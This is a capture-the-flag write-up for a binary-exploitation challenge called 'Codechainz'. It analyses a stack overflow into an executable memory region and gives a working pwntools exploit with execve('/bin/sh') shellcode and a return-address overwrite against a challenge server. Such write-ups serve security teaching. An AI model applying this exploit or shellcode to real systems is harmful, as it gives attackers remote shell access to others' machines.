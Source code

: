 ```yaml
---
title: Codechainz
author: Patrick
---
```


> This is Codechain's older brother, Codechainz

### Files

### What's going on?

This is what we get if we run the program:

```
Hey, this is an epic memory saver. #saved
Because of COVID-19 restrictions,
we can only do memory saving of programming languages.
We apologize for the inconvenience.

Preparing the memory space...
Memory space is ready for storing data.
DISCLAIMER: All your memories will be saved at 0x7fd43dc5f000.


Here are your options. Choose one:
1  Make a new memory
2  View a memory
3  Delete a memory
4  Exit
>
```
Apparently it leaks an address and allows us to make, view and delete a memory (which should be saved at the aforementioned address).

A quick checksec tells us that there's no canary but the stack isn't executable:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Thanks to the binary not being stripped, the code (decompiled using Ghidra) is quite readable.
The main just sets an alarm (which isn't handled so the program crashes after 20 seconds) and calls two functions.
```c
int main(void) {
  alarm(20);
  welcome();
  loop_de_loop();
  return 0;
}
```

The first one, `welcome`, does nothing useful except calling `initMemory` (which allocates `0x1E=30` bytes with the `PROT_EXEC` bit set) and printing `memory_space`'s address.
```C
void init_memory(void) {
  int *piVar1;
  memory_space = mmap(0x0,0x1e,0x7,0x22,-1,0);
  if (memory_space == -1) {
    perror("mmap");
    fflush(stdout);
    piVar1 = __errno_location();
                    /* WARNING: Subroutine does not return */
    exit(*piVar1);
  }
  return;
}
```

The second one, `loop_the_loop`, is just a REPL interface. The interesting bit is `input_str`, called when making a new memory.

Here 44 bytes are allocated on the stack for our input but 100 are read (thus allowing us to _smash the stack_:tm:). Then the first 30 bytes are copied to `memory_space` (which we know is executable).
```c
void input_str(void) {
  char stack_buffer [44];
  int i;
  
  memset(stack_buffer,0,30);
  puts("Please input a programming language of your desire. I swear i will remember it.");
  printf("> ");
  fflush(stdout);
  fgets(stack_buffer,100,stdin);
  for (i = 0; i < 30; i = i + 1) {
    *(char *)(memory_space + i) = stack_buffer[i];
  }
  fflush(stdin);
  return;
}
```

### The solution

By looking at the disassembled `input_str` we see that `0x30` bytes are reserved on the stack and `stack_buffer` is placed at it's beginning:
```
0000000000001389 <input_str>:
    1389:	55                   	push   %rbp
    138a:	48 89 e5             	mov    %rsp,%rbp
    138d:	48 83 ec 30          	sub    $0x30,%rsp       <-
    1391:	48 8d 45 d0          	lea    -0x30(%rbp),%rax <-
    .....
```
So this is how the stack looks:
```
+--------+ 0
|        |
|        | --> variables allocated on the stack
|        |
+--------+ 0x30 = 48
|        | --> parent's RBP
+--------+ 56
|        | --> return address
+--------+ 64
```

We just have to place a shellcode in the first 30 bytes and then write `memory_space` address on top of the regular return address

```python
from pwn import *

io = connect('51.124.222.205', 13370)

'''
Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode

http://shell-storm.org/shellcode/files/shellcode-603.php
'''
shellcode = b"\x48\x31\xd2"                             +  \
            b"\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68" +  \
            b"\x48\xc1\xeb\x08"                         +  \
            b"\x53"                                     +  \
            b"\x48\x89\xe7"                             +  \
            b"\x50"                                     +  \
            b"\x57"                                     +  \
            b"\x48\x89\xe6"                             +  \
            b"\xb0\x3b"                                 +  \
            b"\x0f\x05"

io.recvuntil(b'saved at ')
addr = int(io.recvuntil(b'.', drop=True).decode(), 16)
log.info(f'memory_space address: {hex(addr)}')

io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b'> ')

payload = shellcode  # shellcode (30 bytes long)
payload += b'K'*26   # padding
payload += p64(addr) # memory_space address

io.sendline(payload)
io.interactive()
```

We now have a shell on the server so we can `cat flag.txt`